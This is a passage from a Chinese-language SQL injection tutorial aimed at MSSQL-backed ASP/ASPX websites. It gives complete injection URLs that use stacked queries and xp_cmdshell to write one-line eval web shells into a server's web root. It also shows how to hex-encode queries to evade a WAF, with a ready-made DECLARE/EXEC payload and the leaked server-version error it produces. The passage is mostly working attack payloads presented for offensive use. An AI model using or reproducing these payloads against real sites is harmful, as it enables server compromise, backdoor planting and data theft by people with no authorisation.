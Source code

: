 在将 nvarchar 值 ‘B5A1EF8730200F93E50F4F5DEBBCAC0B‘ 转换成数据类型 int 时失败。

#### **写入一句话木马**

如果数据的权限是dba，且知道网站绝对路径的话，那么我们就可以用这个语句来写一句话木马进去：

  

asp木马：

```
http://www.xxx.cn/xxx/xxx.aspx?id=1;exec master..xp_cmdshell 'echo "<%@ LANGUAGE=VBSCRIPT %>;<%eval request(chr(35))%>''" > d:\KfSite\kaifeng\2.asp'--
```

aspx木马：

```
http://www.xxx.cn/xxx/xxx.aspx?id=1;exec master..xp_cmdshell 'echo "<%@ LANGUAGE=Jscript %>;<%eval(Request("sb"),"unsafe")%>''" >C:\inetpub\wwwroot\2.aspx' --
```

  

原理是sql server支持堆叠查询，利用`xp_cmdshell`可以执行cmd指令，cmd指令中用【echo 内容 > 文件】可以写文件到磁盘里面。

## **利用hex编码绕过WAF**

http://www.xxx.com/xxx/xxx.aspx?username=xxx 利用火狐浏览器中的hackbar工具的Encoding底下的“HEX Encoding”轻松把字符串编码成为可以利用的hex

  

然后利用报错注入就可以注入这个网站。

### **爆数据库版本**

`select convert(int,@@version)`

hex编码后：0x73656c65637420636f6e7665727428696e742c404076657273696f6e29

  

然后使用如下方式注入：

```
http://www.xxx.com/xxx/xxx.aspx?username=xxx';dEcLaRe @s vArChAr(8000) sEt @s=0x73656c65637420636f6e7665727428696e742c404076657273696f6e29 eXeC(@s)–
```

  

报错信息：

在将 nvarchar 值 ‘Microsoft SQL Server 2008 R2 (RTM) - 10.50.1600.1 (X64) Apr 2 2010 15:48:46 Copyright (c) Microsoft CorporationStandard Edition (64-bit) on Windows NT 6.1 (Build 7601: Service Pack 1) (Hypervisor)‘ 转换成数据类型 int 时失败。

  

注意后面的注入语句：

dEcLaRe @s vArChAr(8000) //声明一个局部变量@s，类型为varchar(8000)

